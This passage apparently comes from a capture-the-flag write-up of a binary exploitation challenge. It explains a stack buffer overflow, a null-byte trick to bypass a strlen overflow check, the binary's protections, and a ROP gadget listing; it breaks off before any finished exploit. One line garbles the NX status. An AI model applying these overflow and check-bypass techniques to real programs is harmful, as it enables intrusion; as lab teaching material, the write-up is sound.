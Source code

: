 ```c
		exit(EXIT_FAILURE);
	} else {
		puts("Pathetic, 'tis but a scratch!");
	}
	return 0;
}

```

The application is quite simple, it just prompts the user for input, and reads too much data onto the stack leading to a classic buffer overflow. It then checks the string length to check for a buffer overflow, and if an overflow is detected it `exit`s so that `main` doesn't return. Otherwise it returns normally.

## Protections

Running `checksec` yields:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
```
So we're dealing with pretty standard protections, minus `PIE`.
The lack of canary and `PIE` will make our overflow feasible, and no `NX` means no shellcode (oh well, who needs shellcode anyways).

# Solution

## Exploitation

### Bypass `strlen` check

The first problem we face is the buffer overflow check, however fortunately for us this is a flimsy check.
The string length is the number of bytes before a terminating null byte, however `fgets` doesn't stop us from writing null bytes of our own, so we could place a null byte at the beginning of the buffer to force `strlen` to return a value less than `0x80`, hence bypassing the check.

## Finding gadgets

```
Gadgets information
============================================================
0x0000000000401077 : add al, 0 ; add byte ptr [rax], al ; jmp 0x401020
0x0000000000401057 : add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x401020
0x00000000004010eb : add bh, bh ; loopne 0x401155 ; nop ; ret
0x0000000000401037 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x401020
0x0000000000401270 : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x00000000004010b8 : add byte ptr [rax], al ; add byte ptr [rax], al ; nop dword ptr [rax] ; ret
0x0000000000401271 : add byte ptr [rax], al ; add cl, cl ; ret
0x000000000040115a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401039 : add byte ptr [rax], al ; jmp 0x401020
0x0000000000401272 : add byte ptr [rax], al ; leave ; ret
0x00000000004010ba : add byte ptr [rax], al ; nop dword ptr [rax] ; ret
0x0000000000401034 : add byte ptr [rax], al ; push 0 ; jmp 0x401020
0x0000000000401044 : add byte ptr [rax], al ; push 1 ; jmp 0x401020
0x0000000000401054 : add byte ptr [rax], al ; push 2 ; jmp 0x401020
0x0000000000401064 : add byte ptr [rax], al ; push 3 ; jmp 0x401020
0x0000000000401074 : add byte ptr [rax], al ; push 4 ; jmp 0x401020
0x0000000000401084 : add byte ptr [rax], al ; push 5 ; jmp 0x401020
```